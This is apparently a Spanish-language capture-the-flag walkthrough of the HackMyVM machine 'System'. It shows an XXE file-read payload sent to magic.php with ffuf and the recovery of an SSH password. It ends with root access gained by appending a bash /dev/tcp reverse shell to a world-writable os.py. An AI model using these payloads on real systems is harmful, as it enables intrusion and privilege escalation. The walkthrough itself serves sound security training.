


# Resumen ejecutivo
La máquina System expone dos servicios: SSH en el puerto 22 y un servidor web nginx en el puerto 80. Al acceder al panel web se descubre un endpoint `magic.php` que procesa datos en formato XML, lo que permite explotar una vulnerabilidad XXE para leer archivos locales del sistema. Con `ffuf` se fuzzean rutas dentro del directorio del usuario `david` (identificado en `/etc/passwd`), encontrando un archivo `.viminfo` que revela la ruta `/usr/local/etc/mypass.txt`; al leerlo a través del XXE se obtiene la credencial `david:h4ck3rd4v!d`, que permite acceder al sistema vía SSH. Durante la post-explotación se usa `pspy` para monitorear procesos, descubriendo un cronjob que ejecuta `/opt/suid.py` con UID 0. Al analizar el script se identifica un error de importación: importa `system` directamente desde `os` pero luego intenta llamarlo como `os.system()`, lo que provoca un `NameError` y nunca ejecuta el `chmod` previsto. Sin embargo, se comprueba que la librería `/usr/lib/python3.9/os.py` tiene permisos de escritura para todos los usuarios, lo que habilita un ataque de *Python library hijacking*: añadiendo un payload con `subprocess.Popen` al final de `os.py`, al ejecutarse el cronjob se obtiene una reverse shell como root. Por estas razones la máquina está catalogada con un nivel de dificultad fácil.

| Creador                                                  | Nombre de la máquina | Dificultad | Plataforma |
| -------------------------------------------------------- | -------------------- | ---------- | ---------- |
| [avijneyam](https://hackmyvm.eu/profile/?user=avijneyam) | System               | Fácil      | HackMyVm   |

# Comienzo de la auditoría

## Hosts discovery (descubrimiento de hosts)
```bash
❯ nmap -sn 192.168.0.0/24 | grep "Nmap scan"                        
Nmap scan report for 192.168.0.1
Nmap scan report for system (192.168.0.170)
Nmap scan report for navi (192.168.0.131)
```

---

## Enumeración
```bash
# Nmap 7.99 scan initiated Sat May 16 10:24:29 2026 as: /usr/lib/nmap/nmap -p 22,80 -sCV -sS -Pn -vvv -oN nmap.txt -oX nmap.xml 192.168.0.170
Nmap scan report for system (192.168.0.170)
Host is up, received arp-response (0.00031s latency).
Scanned at 2026-05-16 10:24:30 -04 for 6s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 27:71:24:58:d3:7c:b3:8a:7b:32:49:d1:c8:0b:4c:ba (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCjRCpLEF00zJy/GkOtP8umEO3vDUpsiovHmmmfKN5njf5d4aqXBW3wUjqVL3VotabyslG6gNZnaPODVt2z3MdHsyNBuJZrbRrN26Dmz3x6pzJPnizxq2AXGzfgL89jQi83yr72gb2FpxGXm8BqYTTXwbiF7NIi+ekTmRWBa6LUQHgirqggrUq5xdmj0lTu+lMQ2Tzy4xfL6BKgyg4IaZlO9Kz9Z02ghG6VDr2vV9aInO4gu/i2nlvM+aErvWyREoqspjvhgPd0Q950AkOkKfjD5hHxLFZo7aR3PHJev+8zrKwsv/6bUAQIl8nUYifu/a+1vpSddyl37ikQNLY7RsCboBNtPryz7czF1UUtWMlICTHegrchZT3FEr+c5g51hEj+AkwwQoan2y8SCMhKIbWQQH0qBWNXnfNpKGS5y8Vn8s6KqZlsPq49/k9Pmr0jplaqgKDrPuiddGOehu5Yh6Fg5jsk5c5zXttWY17TyJdeab1LBOBJMY2ur4ZnSh+zv7E=
|   256 e2:30:67:38:7b:db:9a:86:21:01:3e:bf:0e:e7:4f:26 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOAIZW58yN/LbK35zNnyYvo4vNm1bnBkyDn4KzLYYyGBG2owUbmMp8WcmKWxT5ImSPDUE24mlhafaDEb8smp1Mc=
|   256 5d:78:c5:37:a8:58:dd:c4:b6:bd:ce:b5:ba:bf:53:dc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB57U+4lDKyoTXGtTCBdDtmnL1YvIhNjQpbp/tdjDYGx
80/tcp open  http    syn-ack ttl 64 nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: HackMyVM Panel
MAC Address: 08:00:27:BE:0A:B3 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 16 10:24:36 2026 -- 1 IP address (1 host up) scanned in 6.64 seconds

```

| Vector | Servicio (Puerto) | Versión       | Qué permite                          | Qué intentar        | Notas |
| ------ | ----------------- | ------------- | ------------------------------------ | ------------------- | ----- |
| 1      | ssh (22)          | OpenSSH 8.4p1 | Acceso autenticado a la máquina      | Buscar credenciales |       |
| 2      | http (80)         | nginx 1.18.0  | Gran abanico de vulnerabilidades web |                     |       |

### http
Al entrar a la página web expuesta en el puerto 80 podemos ver un panel de login:


Luego de intentar un par de cosas, decido ver hacia dónde se están enviando los campos. Podemos ver que se están enviando a un archivo `magic.php` con el siguiente formato:
```xml
<?xml version="1.0" encoding="UTF-8"?><details><email>admin</email><password>admin</password></details>
```
Esto puede derivar en una vulnerabilidad XXE, por lo que procedo a interceptar la petición con Burp Suite.

Al probar una XXE vemos que podemos leer archivos locales:



Por lo que uso `ffuf` para descubrir archivos disponibles usando el siguiente comando:
```bash
❯ ffuf -s -u "http://192.168.0.170/magic.php" -X POST -d '<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [<!ENTITY xxe SYSTEM "FUZZ">] > <details><email>&xxe;</email><password>admin</password></details>' -w /usr/share/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt -fs 85 
```
Este comando hace lo siguiente:
- `ffuf -s`: Arranca la herramienta en modo silencioso para solo ver el nombre de la ruta.
- `-u ... -X POST`: Define la URL objetivo y especifica que se enviarán los datos mediante un método POST.
- `-d '...'`: Es el cuerpo de la petición en formato XML. Reemplaza la palabra FUZZ por las líneas del diccionario para intentar leer archivos internos del sistema (ataque XXE).
- `-w ...`: Indica la ruta del diccionario con la lista de archivos de Linux que va a probar.
- `-fs 85`: Oculta todas las respuestas que midan exactamente 85 bytes.

Luego de enumerar por un tiempo me centré en enumerar archivos dentro del directorio de usuario `david`, identificado al leer el `/etc/passwd`. De esta forma fue como descubrí un archivo `.viminfo`:

```
________________________________________________
 :: Method           : POST
 :: URL              : http://192.168.0.170/magic.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
 :: Data             : <?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [<!ENTITY xxe SYSTEM "/home/david/FUZZ">] > <details><email>&xxe;</email><password>admin</password></details>
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 85
________________________________________________

.viminfo     [Status: 200, Size: 786, Words: 90, Lines: 39, Duration: 21ms]
```

Al leerlo, este contiene la siguiente información importante:

```
# Password file Created:
'0  1  3  /usr/local/etc/mypass.txt
|4,48,1,3,1648909714,"/usr/local/etc/mypass.txt"
```
Este archivo me proporciona la credencial `h4ck3rd4v!d`

---

## Explotación

Pude acceder a través de SSH usando el usuario y credencial `david:h4ck3rd4v!d`:

```bash
david@system:~$ whoami ; hostname ; id
david
system
uid=1000(david) gid=1000(david) groups=1000(david)
```

---

## Post Explotación

Al analizar el sistema buscando información relevante para escalar privilegios, usé `pspy` para poder identificar procesos, comandos o tareas que corrieran en segundo plano. Fue ahí cuando `pspy` arrojó la siguiente salida:

```bash
2026/05/17 06:08:01 CMD: UID=0     PID=955    | /usr/sbin/CRON -f 
2026/05/17 06:08:01 CMD: UID=0     PID=956    | /usr/sbin/CRON -f 
2026/05/17 06:08:01 CMD: UID=0     PID=957    | /bin/sh -c /usr/bin/python3.9 /opt/suid.py 
```

El archivo `suid.py` se ejecuta como root. Al ver su contenido podemos observar lo siguiente:

```python
from os import system
from pathlib import Path

# Reading only first line
try:
    with open('/home/david/cmd.txt', 'r') as f:
        read_only_first_line = f.readline()
    # Write a new file
    with open('/tmp/suid.txt', 'w') as f:
        f.write(f"{read_only_first_line}")
    check = Path('/tmp/suid.txt')
    if check:
        print("File exists")
        try:
            os.system("chmod u+s /bin/bash")
        except NameError:
            print("Done")
    else:
        print("File not exists")
except FileNotFoundError:
    print("File not exists")
```
Este script tiene un error: si ponemos atención podemos ver que está invocando la función `system` de la librería `os`, pero al momento de querer ejecutar `chmod u+s /bin/bash` lo hace usando `os.system`. Esto intenta acceder a la función `system` a través de la librería `os`, pero como se está importando la función y no la librería, el comando no se puede ejecutar.

A raíz de esto decidí verificar los permisos de las librerías, sospechando un posible `python library hijacking`. Veo que la librería `os` tiene permisos de escritura:

```bash
-rw-rw-rw- 1 root root 39166 May 17 06:53 /usr/lib/python3.9/os.py
```

---

## Escalada de privilegios
Sabiendo que el script usa la librería `os.py` y que esta es editable, podemos agregar un payload malicioso al final del archivo para enviarnos una reverse shell hacia nuestra máquina con privilegios de root de la siguiente forma:

Al final de `os.py` añadimos lo siguiente:

```python
import subprocess
subprocess.Popen(["/bin/bash", "-c", "bash -i >& /dev/tcp/TU_IP/4444 0>&1"])
```

Ahora nos ponemos en escucha para recibir la rev shell al momento de ejecutarse el script `suid.py`:


